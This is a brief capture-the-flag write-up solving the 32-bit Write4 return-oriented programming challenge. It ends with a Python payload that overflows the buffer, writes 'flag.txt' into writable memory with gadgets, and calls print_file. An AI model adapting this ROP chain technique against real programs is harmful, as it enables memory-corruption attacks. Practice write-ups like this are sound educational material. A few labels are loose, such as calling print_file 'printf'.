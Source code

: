 This is a Quick Writeup on **Write4** challenge

## For 32 bit

In this challenge , there is a buffer overflow vunerability in function *pwnme* in libc . As this part is repeated in previous challenges , eip offset will be 44 directly.

On small reversing , we see **print_file** function which do *push eax" takes an location of where filename is stored . So our task is to write file name which is "flag.txt" in a binary with the help of ROPgadgets .

First we try to find a gadget which help us to mov some value to some *location*
mov
Cool we found a gadget which will mov ebp value to edi location . lets try to find a ROPgadget which will assign values to these registers.
popop
now we have tools to write in a memory .
lets find the part with read & write permissions 
vmmap
ok we got multiple region I choosen 0x804a0c4 location to write .
now as the file name is "flag.txt" and we are using ebp which can store only 4 bytes of data. so in first writing we just wrote "flag" at that location , 4 bytes after that location we write ".txt". After writing we are gonna call print_file function , I just given him  filename location just after calling , but in GDB session I saw fopen taking ebp+8 and my filename location 4 bytes earlier  , so I added 4 bytes Junk before .

Final Exploit looks like this:
```python
printf = p32(0x080483D0)
# 0x08048543 : mov dword ptr [edi], ebp ; ret
mov = p32(0x08048543)
# 0x080485aa : pop edi ; pop ebp ; ret
popop = p32(0x080485aa)
write1 = p32(0x804a0c0)
write2 = p32(0x804a0c4)

payload = flat(
    b"a"*44,
    popop,
    write1,
    b'flag',
    mov,
    popop,
    write2,
    b'.txt',
    mov,     
    printf,
    b"xxxx",
    write1  
)
```















